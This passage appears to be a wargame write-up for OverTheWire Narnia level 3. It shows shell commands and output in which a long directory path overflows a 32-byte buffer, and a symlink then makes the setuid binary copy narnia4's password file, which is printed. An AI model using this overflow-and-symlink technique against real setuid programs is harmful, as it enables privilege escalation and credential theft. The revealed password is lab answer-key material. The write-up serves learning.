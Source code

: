 {% highlight bash %}
narnia3@narnia:/tmp$ mkdir $(python -c "print 'S'*26")  
narnia3@narnia:/tmp$ cd $(python -c "print 'S'*26")  
narnia3@narnia:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSS$ touch test  
narnia3@narnia:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSS$ chmod 777 test
{% endhighlight %}

Note that a directory of 26 S’s was created because /tmp/ is 5 characters and the / at the end of the S directory is one character (6 + 26 = 32 which is the size allocated for the buffer)

Executing the full path of the “test” file within this directory proves to successfully overwrite the null device variable:

{% highlight bash %}
narnia3@narnia:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSS$ /narnia/narnia3 /tmp/SSSSSSSSSSSSSSSSSSSSSSSSSS/test  
copied contents of /tmp/SSSSSSSSSSSSSSSSSSSSSSSSS/test to a safer place... (test)
{% endhighlight %}

It follows that if we create a /tmp directory within the current working directory and create a file that is symbolically linked to narnia4’s password file, we can copy his credentials to wherever we specify.

{% highlight bash %}
narnia3@narnia:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSS/tmp$ /narnia/narnia3 /tmp/SSSSSSSSSSSSSSSSSSSSSSSSSS/tmp/credentials  
error opening tmp/credentials
{% endhighlight %}

This error was included to further help in understanding how the binary works

The error is missing a / at the beginning of the tmp directory. This is because /tmp/ is four characters, S is 26 characters, and the trailing / is one character (which completely fills the 32 bytes allocated for the buffer). Therefore, the string after the trailing / of the S directory is what overwrites the variable for the null device. Creating a directory with 27 S’s fixes this problem (note that the choice of S’s was arbitrary, and any sequence of 27 bytes within the /tmp directory would have worked):

{% highlight bash %}
narnia3@narnia:/tmp$ mkdir $(python -c "print 'S'*27")  
narnia3@narnia:/tmp$ cd $(python -c "print 'S'*27")  
narnia3@narnia:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS$ mkdir tmp  
narnia3@narnia:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS$ cd tmp  
narnia3@narnia:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS/tmp$ ln -s /etc/narnia_pass/narnia4 credentials  
narnia3@narnia:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS/tmp$ /narnia/narnia3 /tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS/tmp/credentials  
error opening /tmp/credentials  
narnia3@narnia:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS/tmp$ touch /tmp/credentials  
narnia3@narnia:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS/tmp$ chmod 777 /tmp/credentials  
narnia3@narnia:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS/tmp$ /narnia/narnia3 /tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS/tmp/credentials  
copied contents of /tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS/tmp/credentials to a safer place... (/tmp/credentials)  
narnia3@narnia:/tmp/SSSSSSSSSSSSSSSSSSSSSSSSSSS/tmp$ cat /tmp/credentials  
thaenohtai
{% endhighlight %}
